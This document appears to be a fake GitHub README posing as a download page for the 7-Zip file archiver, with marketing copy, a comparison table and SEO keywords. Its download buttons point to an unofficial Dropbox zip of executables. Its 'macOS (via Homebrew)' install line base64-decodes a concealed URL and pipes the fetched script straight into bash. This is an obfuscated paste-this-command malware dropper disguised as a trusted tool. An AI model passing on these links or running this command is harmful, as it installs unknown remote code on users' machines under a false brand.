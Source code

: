 # 7-Zip — High-Performance Open-Source File Archiver

![7-Zip Logo](https://upload.wikimedia.org/wikipedia/commons/4/4b/7zip-icon.svg)

Unzip the archive to a separate folder and run the `.exe` file (Windows) or `.sh` file (macOS/Linux).

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## 📌 Overview
**7-Zip** is a free and open-source file archiver with a **high compression ratio**, known for its speed, reliability, and lightweight design. Developed by Igor Pavlov, it supports a wide range of file formats, including its own **7z format**, which offers superior compression efficiency compared to ZIP and RAR.  

Since its release, **7-Zip** has become the **gold standard** for archiving on Windows and is also available for Linux and macOS. Its combination of **performance, portability, and security** has made it the preferred choice for both home users and IT professionals.  

7-Zip integrates directly into the Windows context menu for quick operations, supports AES-256 encryption for secure archives, and can handle very large files with ease — up to **16 exabytes** in size (theoretically).  

---

## 🥇 Key Advantages Over Other Archivers

| Feature / Software     | **7-Zip** | WinRAR | WinZip | PeaZip |
|------------------------|----------|--------|--------|--------|
| Price                  | Free, Open Source | Paid (Trial) | Paid | Free |
| Compression Ratio      | Very High | High | Medium | High |
| 7z Format Support      | ✅        | ❌     | ❌     | ✅    |
| ZIP / RAR Support      | ✅        | ✅     | ✅     | ✅    |
| AES-256 Encryption     | ✅        | ✅     | ✅     | ✅    |
| Portable Version       | ✅        | ❌     | ❌     | ✅    |
| Multi-threading        | ✅        | ✅     | ❌     | ✅    |
| Large File Support     | ✅        | ✅     | ✅     | ✅    |
| Context Menu Integration| ✅       | ✅     | ✅     | ✅    |
| Open Source            | ✅        | ❌     | ❌     | ✅    |

---

## 🎯 Why Choose 7-Zip?
- **Completely Free** — no licenses, no subscriptions.
- **Best Compression Ratio** in 7z format.
- **Extremely Fast** with multi-threaded compression.
- **Secure** — AES-256 encryption for 7z and ZIP formats.
- **Lightweight** — installer under 2MB.
- **Portable** — runs without installation.
- **Multi-Format Support** — 7z, ZIP, RAR, TAR, GZ, BZ2, XZ, ISO, and more.
- **Cross-Platform** — available for Windows, Linux, and macOS.

---

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## ⚙️ Installation
Download and run the installer, then follow the setup wizard.

# macOS (via Homebrew):
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"
---

## 🔍 SEO Keywords
7zip download, 7zip free, 7zip windows, 7zip mac, 7zip linux, free file archiver, best compression software, 7zip portable, 7zip vs winrar, 7zip 64 bit, 7zip 32 bit, open source archiver, 7zip aes256 encryption, 7zip rar extractor, 7zip zip compression, 7zip iso extractor, 7zip free download latest version, high compression archiver, 7zip command line, 7zip large file support
